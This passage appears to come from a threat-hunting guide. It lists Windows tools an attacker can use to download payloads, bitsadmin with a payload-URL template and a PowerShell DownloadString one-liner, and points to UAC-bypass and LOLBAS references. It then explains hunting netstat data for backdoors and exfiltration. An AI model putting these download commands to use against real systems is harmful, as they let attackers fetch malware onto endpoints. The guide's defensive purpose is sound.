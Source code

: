 ##### bitsadmin.exe

-   Description: Allows you to download a payload.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: bitsadmin /transfer [job-name] /download /priority normal [URL-to-payload] [output-path]
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### powershell.exe

-   Description: Allows you to download a payload.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: powershell -c "(New-Object System.Net.WebClient).DownloadString('https://google.com')"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

### References

UAC Bypasses: <https://github.com/hfiref0x/UACME>

LOL Tools: <https://github.com/api0cradle/LOLBAS>

MITRE Execution: <https://attack.mitre.org/tactics/TA0002/>

## Active Network Connection Metadata (netstat)

The Portview and Get-Netstat data collections are snapshots of all network
connected running processes on all endpoints.

### Important Fields

Get-Netstat

· ExecutablePath

· CommandLine

· Owner

· RemoteAddress

Port View

· Process Path

· Remote Address

· Remote Host Name

· Username

### Hunt Value

It is common for cyber-attacks to originate from outside of the network
requiring the attacker to obtain and maintain remote access to one or more
systems. Analyzing active network connections and listening ports and processes
allows investigators to uncover backdoors, data exfiltration, and lateral
movement.
